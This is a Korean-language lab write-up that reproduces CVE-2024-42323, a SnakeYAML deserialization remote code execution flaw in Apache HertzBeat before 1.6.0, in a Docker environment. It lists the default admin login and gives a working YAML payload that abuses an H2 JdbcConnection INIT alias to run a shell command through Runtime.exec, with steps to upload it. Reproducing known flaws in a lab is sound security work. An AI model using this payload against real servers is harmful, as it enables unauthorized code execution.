 ### Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

#### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 




<br>
#### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

![docker compose 실행 화면](images/docker_compose_up.png)

![hertzbeat 로그인 화면](images/hertzbeat_login.png)

- 아이디: admin
- 비밀번호: hertzbeat


<br>
#### 취약점 재현 (공격 설명)

##### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

![.yaml 파일 생성 화면](images/create_malicious_yaml.png)

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.



##### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

![import 화면](images/yaml_import_screen.png)



1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.



##### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

![sucess 화면](images/success_file_created.png)






<br>
#### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)
